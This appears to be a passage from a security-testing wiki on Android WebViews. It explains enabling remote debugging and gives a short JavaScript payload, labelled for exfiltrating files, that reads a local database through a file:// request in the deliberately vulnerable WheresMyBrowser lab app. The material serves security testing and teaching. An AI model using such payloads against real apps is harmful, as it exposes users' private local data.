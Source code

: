 In order to enable **WebView Remote Debugging** you can do something like:

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    WebView.setWebContentsDebuggingEnabled(true);
}
```

**This setting applies to all of the application's WebViews.**

{% hint style="info" %}
**WebView debugging is not affected by the state of the `debuggable` flag** in the application's manifest. If you want to enable WebView debugging only when `debuggable` is `true`, test the flag at runtime.
{% endhint %}

```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
    if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
    { WebView.setWebContentsDebuggingEnabled(true); }
}
```

### Payloads

#### Exfiltrate arbitrary files

```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```

### References

{% embed url="https://github.com/authenticationfailure/WheresMyBrowser.Android" caption="" %}

{% embed url="https://developer.android.com/reference/android/webkit/WebView" caption="" %}


